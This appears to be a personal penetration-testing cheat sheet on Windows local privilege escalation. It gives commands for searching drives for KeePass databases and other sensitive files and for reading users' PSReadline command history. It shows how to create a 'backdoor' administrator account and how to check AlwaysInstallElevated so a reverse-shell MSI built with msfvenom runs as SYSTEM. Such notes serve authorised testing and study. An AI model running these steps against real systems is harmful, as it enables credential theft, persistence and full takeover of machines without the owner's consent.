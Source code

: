 If all else fails, refer to: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

Search for interesting files
```powershell
#list file structure
tree /f /a

#find filetypes (edit filetypes accordingly)
#cmd
dir /s/b C:\*kdbx
#powershell
Get-ChildItem -Path C:\Users -Include *.txt,*.ini,*.pdf,*.kdbx,*.exe -Recurse -ErrorAction SilentlyContinue
```

- Check PowerShell history of a user
```powershell
Get-History
```

- `Clear-History` does not clear the command history recorded by `PSReadline` 
- Use `Get-PSReadlineOption` to obtain information
```powershell
(Get-PSReadlineOption).HistorySavePath
```
- This displays the path of the history file from PSReadline. Use `type` command to view the file content
```powershell
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

# Add new user
```shell
net user /add backdoor Password1
```

# Add new user to Administrators group
```shell
net localgroup administrators /add backdoor
```
These commands useful when using GodPotato for example

# AlwaysInstallElevated
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\SYSTEM

Use `msfvenom` to generate windows reverse shell binary in `.msi` format

